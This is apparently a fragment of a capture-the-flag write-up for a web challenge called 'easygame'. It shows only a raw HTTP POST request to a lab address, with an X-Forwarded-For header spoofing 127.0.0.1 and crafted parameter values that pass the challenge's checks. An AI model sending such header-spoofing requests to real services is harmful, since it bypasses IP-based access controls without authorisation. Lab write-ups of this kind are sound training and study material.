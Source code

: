 ![](wp2019/截屏2021-10-07%2016.27.07.png)

# easygame

```
POST /?Xp0int=JNU HTTP/1.1
Host: 172.16.172.202:8003
Content-Length: 13
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
Origin: http://172.16.172.202:8003
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.172.202:8003/?Xp0int=JNU
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE
X-Forwarded-For: 127.0.0.1
Connection: close

Xp0int=JNUJNU
```
